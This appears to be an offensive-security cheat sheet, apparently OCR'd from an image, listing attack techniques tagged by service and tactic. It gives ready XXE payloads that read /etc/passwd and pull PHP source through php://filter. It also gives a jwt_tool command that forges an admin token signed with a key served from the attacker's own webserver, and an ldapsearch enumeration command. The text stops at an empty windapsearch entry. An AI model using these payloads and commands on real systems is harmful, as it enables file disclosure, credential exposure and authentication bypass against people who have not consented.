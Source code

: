 ## Read local files

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

## Read binary or files that otherwise can't be display (.php)

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

---

# Java-Web-Token (JWT)

- service: http
- tactics: inital_access

## Sign JWT with own key - might need a webserver serving the private key

```python
python3 jwt_tool.py [eyJ0eXAiOiJKV1QiLCJhbG..snip..] -I -hc kid -hv "http://<IP>/jwt.pub" -pc <admin_cap> -pv <1> -S rs256 -pr jwt.key
```

---

# ldapsearch
- service: ldap
- tactics: discovery

`ldapsearch -x -h target-ip -b "dc=domain,dc=tld"`

---

# windapsearch.py
- service: ldap
- tactics: discovery
